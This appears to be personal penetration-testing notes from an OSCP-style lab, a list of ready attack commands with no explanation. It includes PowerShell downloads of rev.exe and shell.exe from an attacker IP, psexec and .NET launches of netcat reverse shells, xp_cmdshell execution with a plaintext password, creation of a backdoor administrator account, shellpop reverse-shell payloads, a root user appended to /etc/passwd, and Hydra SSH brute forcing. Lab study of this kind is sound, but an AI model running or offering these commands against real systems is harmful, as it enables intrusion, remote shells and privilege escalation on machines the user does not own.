 #### SMB commands
smbmap -H 10.11.1.136 -u null -p ""   
smbmap -H 10.11.1.136 -u null -p "" -R   
smbclient \\\\10.11.1.136\\'Bob Share' ""    
smbclient \\\\\\\10.11.1.136\\\\'Bob Share' ""    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.31 

#### transfer files
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.232/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.232/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user 
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.49 443 -e cmd.exe

#### execute nc as another user
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.254 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.31

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.71 ssh

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.5 -o /git/oscp/labs"
